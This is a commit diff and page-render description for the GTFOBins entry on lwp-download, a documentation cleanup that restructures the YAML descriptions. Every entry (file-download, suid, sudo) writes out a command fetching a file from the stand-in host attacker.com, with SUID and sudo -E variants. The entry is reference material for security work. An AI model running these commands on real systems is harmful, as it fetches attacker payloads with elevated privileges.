

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/lwp-download.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 979 px from its top, so only the background shows below that.

Commit message:
Improve lwp-download

```diff
--- a/_gtfobins/lwp-download.md
+++ b/_gtfobins/lwp-download.md
@@ -1,21 +1,19 @@
 ---
+description: Fetch a remote file via HTTP GET request.
 functions:
   file-download:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
+    - code: |
+        URL=http://attacker.com/file_to_get
+        LFILE=file_to_save
         lwp-download $URL $LFILE
   suid:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
+    - code: |
+        URL=http://attacker.com/file_to_get
+        LFILE=file_to_save
         ./lwp-download $URL $LFILE
   sudo:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        export URL=http://attacker.com/file_to_get
+    - code: |
+        URL=http://attacker.com/file_to_get
         export LFILE=file_to_save
         sudo -E lwp-download $URL $LFILE
 ---
```
